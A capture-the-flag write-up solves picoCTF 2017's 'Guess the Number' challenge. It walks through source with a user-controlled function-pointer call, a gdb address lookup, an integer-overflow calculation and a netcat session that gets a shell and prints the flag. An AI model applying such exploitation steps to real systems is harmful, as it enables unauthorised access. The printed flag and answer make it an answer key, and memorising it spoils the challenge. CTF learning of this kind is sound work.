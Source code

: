 # Guess the Number
#### Writeup by Valar_Dragon
* **Binary Exploitation**
* *75 points*
* Description: Just a simple number-guessing game. How hard could it be? [Binary](guess_num) [Source](guess_num.c). Connect on shell2017.picoctf.com:49258.

Lets start by looking at the source code of this program!
```c
/* How well do you know your numbers? */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}

int main(int argc, char **argv) {
    uintptr_t val;
    char buf[32] = "";

    /* Turn off buffering so we can see output right away */
    setbuf(stdout, NULL);

    printf("Welcome to the number guessing game!\n");
    printf("I'm thinking of a number. Can you guess it?\n");
    printf("Guess right and you get a shell!\n");

    printf("Enter your number: ");
    scanf("%32s", buf);
    val = strtol(buf, NULL, 10);

    printf("You entered %d. Let's see if it was right...\n", val);

    val >>= 4;
    ((void (*)(void))val)();
}
```
So it looks like we need to exploit `((void (*)(void))val)();` ,  since strtol is a secure way to copy the input.

`((void (*)(void))val)();` essentially means execute the void function located at memory address val. In our case, the function we want to execute is win, so we need to get its memory address from the Binary

To do this:
```
$ gdb ./guess_num
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later
-snip-
Reading symbols from ./guess_num...(no debugging symbols found)...done.
(gdb) p win
$1 = {<text variable, no debug info>} 0x804852b <win>
```
The memory address we want is `0x804852b`, which is our final value of val.
The value for val we need inputted is

$$ 0x804852b << 4 $$
which is 2152223408.
If we try to enter that into the netcat session we get:
```
$ nc shell2017.picoctf.com 49258
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: 2152223408
You entered 2147483647. Let's see if it was right...
```

2152223408 overflowed into 2147483647 (2**31 -1)! Its too big for a signed int! Lets look at the binary of 2152223408

`10000000010010000101001010110000`
The leading digit being a 1 means the number is negative in C. But that doesn't matter to us, as val is being bit shifted by 4 to the right, so that negative sign will go away! We just need to figure out what signed int in C has that binary. Negative numbers in C are `-2**31 + (remaining binary)`. The remaining binary is `10010000101001010110000` which is 4739760.

Thus the number we are looking for is $$-2142743888$$, because that will bitshift to 0x804852b, which is what we are looking for!

Trying that:

```
$ nc shell2017.picoctf.com 49258
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743888
You entered -2142743888. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ echo "W00T We got Shell!"
W00T We got Shell!
$ ls      
flag.txt
guess_num
xinetd_wrapper.sh
$ cat flag.txt
f2892be47d731c96e753d14c913fd757
```
